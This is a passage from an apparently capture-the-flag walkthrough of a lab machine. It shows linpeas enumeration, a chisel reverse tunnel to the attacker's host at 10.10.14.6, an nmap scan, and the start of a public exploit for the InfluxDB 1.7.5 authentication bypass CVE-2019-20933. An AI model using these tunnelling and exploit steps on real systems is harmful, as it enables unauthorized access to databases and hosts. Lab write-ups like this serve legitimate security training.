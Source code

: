 Stabilize the shell and run linpeas. You will find a process and port and application name.

```python
root        1229  0.0  0.1 550720  3856 ?        Sl   Oct16   0:00  _ /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8086 -container-ip 172.17.0.2 -container-port 8086
```

Let’s forward that port to our kali machine.

```python
⛩\> ./chisel server -p 8000 --reverse
2021/10/17 08:07:40 server: Reverse tunnelling enabled
2021/10/17 08:07:40 server: Fingerprint tCrPLFWdqj7J3UVZvZ50Ex4TOAxa8g3Yw4UyalGwpKQ=
2021/10/17 08:07:40 server: Listening on http://0.0.0.0:8000
2021/10/17 08:08:08 server: session#1: tun: proxy#R:8086=>8086: Listening
```

```python
patrick@devzat:~/pets$ ./chisel client 10.10.14.6:8000 R:8086:127.0.0.1:8086
2021/10/17 08:08:07 client: Connecting to ws://10.10.14.6:8000
2021/10/17 08:08:09 client: Connected (Latency 156.959798ms)
```

Let’s do a service enumeration on this port.

```python
⛩\> nmap -p 8086 -sV 127.0.0.1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-17 11:18 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00012s latency).

PORT     STATE SERVICE VERSION
8086/tcp open  http    InfluxDB http admin 1.7.5

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.06 seconds
```

InfluxDB 1.7.5 is running on docker, let’s look for any vulnerability.

[InfluxDB 1.7 release notes | InfluxDB OSS 1.7 Documentation](https://docs.influxdata.com/influxdb/v1.7/about_the_project/releasenotes-changelog/#176-2019-04-16)

> TL;DR
The vulnerability allows a remote attacker to bypass authentication process. The vulnerability exists due the JWT token may have an empty SharedSecret in the authenticate function in services/httpd/handler.go. A remote non-authenticated attacker can bypass authentication process and gain unauthorized access to the application.

[When all else fails - find a 0-day](https://www.komodosec.com/post/when-all-else-fails-find-a-0-day)

We can exploit it manually by understanding the above blog and steps. Or we can automate with below poc.

[GitHub - LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933: InfluxDB CVE-2019-20933 vulnerability exploit](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933)

```python
⛩\> python3 __main__.py
  _____        __ _            _____  ____    ______            _       _ _
 |_   _|      / _| |          |  __ \|  _ \  |  ____|          | |     (_) |
   | |  _ __ | |_| |_   ___  __ |  | | |_) | | |__  __  ___ __ | | ___  _| |_
   | | | '_ \|  _| | | | \ \/ / |  | |  _ <  |  __| \ \/ / '_ \| |/ _ \| | __|
  _| |_| | | | | | | |_| |>  <| |__| | |_) | | |____ >  <| |_) | | (_) | | |_
 |_____|_| |_|_| |_|\__,_/_/\_\_____/|____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                                         | |
                                                         |_|
CVE-2019-20933

Insert ip host (default localhost):
```